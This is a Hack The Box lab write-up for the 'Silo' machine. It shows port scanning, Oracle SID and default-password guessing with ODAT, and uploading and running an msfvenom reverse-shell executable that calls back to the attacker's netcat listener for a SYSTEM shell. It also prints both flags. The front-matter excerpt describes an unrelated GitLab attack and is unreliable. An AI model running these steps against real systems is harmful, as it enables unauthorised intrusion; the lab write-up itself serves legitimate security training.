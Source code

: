 ```yaml
---
layout: single
title: Silo - Hack The Box
excerpt: "A vulnerable instance of Gitlab to obtain a shell. Mount the host filesystem within the container to access the root flag" 
date: 2022-09-24
classes: wide
header:
  teaser: /assets/images/htb-writeup-silo/silo_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:
  - ODAT
  - Oracle
---
```


![](/assets/images/htb-writeup-silo/silo_logo.png)

We need to upload a file and execute it to gain a privileged shell.

## Portscan
```bash
❯ nmap -sCV -p80,135,139,445,1521,5985,8080,47001,49152,49153,49154,49155,49159,49160,49161,49162 10.129.95.188 -oN targeted
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-23 14:45 CEST
Nmap scan report for 10.129.95.188
Host is up (0.047s latency).

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 8.5
|_http-server-header: Microsoft-IIS/8.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1521/tcp  open  oracle-tns   Oracle TNS listener 11.2.0.2.0 (unauthorized)
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8080/tcp  open  http         Oracle XML DB Enterprise Edition httpd
|_http-server-header: Oracle XML DB/Oracle Database
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=XDB
|_http-title: 400 Bad Request
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  oracle-tns   Oracle TNS listener (requires service name)
49160/tcp open  msrpc        Microsoft Windows RPC
49161/tcp open  msrpc        Microsoft Windows RPC
49162/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3.0.2:
|_    Message signing enabled but not required
|_clock-skew: mean: -3s, deviation: 0s, median: -3s
| smb2-time:
|   date: 2022-09-23T12:47:15
|_  start_date: 2022-09-23T12:08:02
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: supported
```
After some tests...
```bash
❯ whatweb http://10.129.95.188:80
ERROR Opening: http://10.129.95.188:80 - execution expired
❯ curl -s -X GET http://10.129.95.188:80
❯ rpcclient -U "" 10.129.95.188 -N
Cannot connect to server.  Error was NT_STATUS_IO_TIMEOUT
❯ smbclient -L //10.129.95.188 -N
do_connect: Connection to 10.129.95.188 failed (Error NT_STATUS_IO_TIMEOUT)
❯ crackmapexec smb 10.129.95.188
SMB         10.129.95.188   445    SILO             [*] Windows Server 2012 R2 Standard 9600 x64 (name:SILO) (domain:SILO) (signing:False) (SMBv1:True)
❯ smbmap -H 10.129.95.188
[!] Authentication error on 10.129.95.188
❯ smbmap -H 10.129.95.188 -u 'null'
[!] Authentication error on 10.129.95.188
```
Oracle Database calls our attention. We could solve this machine using [ODAT](https://github.com/quentinhardy/odat) or manually
1. ODAT
>  1. Installation
```bash
git clone https://github.com/quentinhardy/odat
cd odat/
git submodule init
git submodule update
sudo apt-get install libaio1 python3-dev alien python3-pip
```
Get instant client basic, sdk(devel) and sqlplus from the Oracle web site
```bash
❯ ls
oracle-instantclient-basic-21.7.0.0.0-1.el8.x86_64.rpm
oracle-instantclient-devel-21.7.0.0.0-1.el8.x86_64.rpm
oracle-instantclient-sqlplus-21.7.0.0.0-1.el8.x86_64.rpm
❯ sudo alien --to-deb *
❯ sudo dpkg -i *.deb
```
We add these variables in our zshrc checking the correct version. How? 
```bash
❯ ls /usr/lib/oracle
21
```
In my case is 21, so the final result in my zshrc will be: 
```bash
export ORACLE_HOME=/usr/lib/oracle/21/client64/
export LD_LIBRARY_PATH=$LD_LIBRARY_PATH:$ORACLE_HOME/lib
export PATH=${ORACLE_HOME}bin:$PATH
```
Last step:
```bash
❯ pip3 install cx_Oracle
```  
This will be enough to use the tool.
```bash
❯ python3 odat.py --help
```
> 2. Sidguesser
```bash
❯ python3 odat.py sidguesser -s 10.129.95.188
[1] (10.129.95.188:1521): Searching valid SIDs
[1.1] Searching valid SIDs thanks to a well known SID list on the 10.129.95.188:1521 server
[+] 'XE' is a valid SID
```
> 3. Passwordguesser.
```bash
❯ head -n 3 accounts/accounts.txt
abm/abm
adams/wood
adldemo/adldemo
```
By default, ODAT is using accounts/accounts.txt as dictionary. But we will use other with the correct format that it supports.
```bash
❯ locate oracle_ | grep pass
/usr/share/metasploit-framework/data/wordlists/hci_oracle_passwords.csv
/usr/share/metasploit-framework/data/wordlists/oracle_default_passwords.csv
/usr/share/metasploit-framework/data/wordlists/oracle_default_userpass.txt
```
Change the format
```bash
❯ cat /usr/share/metasploit-framework/data/wordlists/oracle_default_userpass.txt | tr ' ' '/' > ourNewDictionary.txt
```
Let's utilize our custom dictionary
```bash
❯ python3 odat.py passwordguesser -s 10.129.95.188  -d XE --accounts-file ourNewDictionary.txt
[+] Valid credentials found: scott/tiger. Continue...
100% |##################################################################| Time: 00:32:37
[+] Accounts found on 10.129.95.188:1521/sid:XE:
scott/tiger
```
Are this valid credentials?
```bash
❯ crackmapexec smb 10.129.95.188 -u 'scott' -p 'tiger'
SMB         10.129.95.188   445    SILO             [*] Windows Server 2012 R2 Standard 9600 x64 (name:SILO) (domain:SILO) (signing:False) (SMBv1:True)
SMB         10.129.95.188   445    SILO             [-] SILO\scott:tiger STATUS_LOGON_FAILURE
```
> 4. It seems that is not working. Let's continue with odat and the utlfile option to test if we are able to see the /etc/hosts on the Windows machine
```bash
❯ python3 odat.py utlfile -s 10.129.95.188 -d 'XE' -U 'scott' -P 'tiger' --getFile 'C:\Windows\System32\drivers\etc\' 'hosts' 'hosts' --sysdba
[1] (10.129.95.188:1521): Read the hosts file stored in C:\Windows\System32\drivers\etc\ on the 10.129.95.188 server
[+] Data stored in the hosts file sored in C:\Windows\System32\drivers\etc\ (copied in hosts locally):
b"# Copyright (c) 1993-2009 Microsoft Corp.\n#\n# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.\n#\n# This file contains the mappings of IP addresses to host names. Each\n# entry should be kept on an individual line. The IP address should\n# be placed in the first column followed by the corresponding host name.\n# The IP address and the host name should be separated by at least one\n# space.\n#\n# Additionally, comments (such as these) may be inserted on individual\n# lines or following the machine name denoted by a '#' symbol.\n#\n# For example:\n#\n#      102.54.94.97     rhino.acme.com          # source server\n#       38.25.63.10     x.acme.com              # x client host\n\n# localhost name resolution is handled within DNS itself.\n#\t127.0.0.1       localhost\n#\t::1             localhost\n"
```
It works. We want to establish a reverse shell with netcat. In order to be able to carry it out, we need to create a payload and upload it into the victim machine.
```bash
❯ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.87 LPORT=4126 -f exe -o badshell.exe
```
```bash
❯ python3 odat.py utlfile -s 10.129.95.188 -d 'XE' -U 'scott' -P 'tiger' --putFile 'C:\Windows\Temp\' 'shell.exe' 'badshell.exe' --sysdba
[1] (10.129.95.188:1521): Put the badshell.exe local file in the C:\Windows\Temp\ folder like shell.exe on the 10.129.95.188 server
[+] The badshell.exe file was created on the C:\Windows\Temp\ directory on the 10.129.95.188 server like the shell.exe file
```
It would only be necessary to execute it.
```bash
❯ python3 odat.py externaltable -s 10.129.95.188 -d 'XE' -U 'scott' -P 'tiger' --exec 'C:\Windows\Temp\' 'shell.exe' --sysdba
[1] (10.129.95.188:1521): Execute the shell.exe command stored in the C:\Windows\Temp\ path
```
In our machine,
```bash
❯ rlwrap nc -lvnp 4126
listening on [any] 4126 ...
connect to [10.10.14.87] from (UNKNOWN) [10.129.95.188] 49178
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
C:\oraclexe\app\oracle\product\11.2.0\server\DATABASE>whoami
nt authority\system
```
***

User flag: b2397834bc61db5f4662b02f2b61abec

Root flag: e0bd696617d563b54bbe214080d25cc2
